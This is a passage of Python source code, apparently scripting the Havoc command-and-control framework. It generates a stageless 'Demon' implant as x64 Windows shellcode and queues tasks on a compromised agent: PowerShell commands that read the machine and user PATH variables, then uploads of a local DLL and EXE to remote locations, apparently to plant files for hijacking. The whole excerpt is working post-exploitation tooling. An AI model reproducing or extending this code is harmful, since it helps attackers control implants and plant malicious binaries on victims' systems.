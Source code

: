 ```python
    }
    return make_package(LISTENER_TYPE, LISTENER_ADD, info)


def gate_payload(config_json):
    info = {
        "AgentType": "Demon",
        "Listener": LISTENER_NAME,
        "Arch": "x64",
        "Format": "Windows Shellcode",
        "Config": config_json,
    }
    return make_package(GATE_TYPE, GATE_STAGELESS, info, one_time=True)


def build_workflow(agent_id):
    steps = []

    def append_step(name, payload, **extras):
        step = {
            "name": name,
            "payload": payload,
            "command_id": payload["Body"]["Info"]["CommandID"],
            "task_id": payload["Body"]["Info"]["TaskID"],
        }
        step.update(extras)
        steps.append(step)

    _, payload = make_task(
        agent_id,
        0x1010,
        "powershell [System.Environment]::GetEnvironmentVariable('Path','Machine')",
        ProcCommand="4",
        Args=encode_ps("[System.Environment]::GetEnvironmentVariable('Path','Machine')"),
    )
    append_step("machine_path", payload, outfile=ARTIFACT_DIR / "machine-path.txt")

    _, payload = make_task(
        agent_id,
        0x1010,
        "powershell [System.Environment]::GetEnvironmentVariable('Path','User')",
        ProcCommand="4",
        Args=encode_ps("[System.Environment]::GetEnvironmentVariable('Path','User')"),
    )
    append_step("user_path", payload, outfile=ARTIFACT_DIR / "user-path.txt")

    _, payload = make_task(
        agent_id,
        15,
        f"upload {LOCAL_DLL} {REMOTE_DLL}",
        SubCommand="upload",
        Arguments=encode_path(REMOTE_DLL),
        File=read_file_b64(LOCAL_DLL),
    )
    append_step("upload_wpts", payload)

    _, payload = make_task(
        agent_id,
        15,
        f"upload {LOCAL_EXE} {REMOTE_EXE}",
        SubCommand="upload",
        Arguments=encode_path(REMOTE_EXE),
        File=read_file_b64(LOCAL_EXE),
```
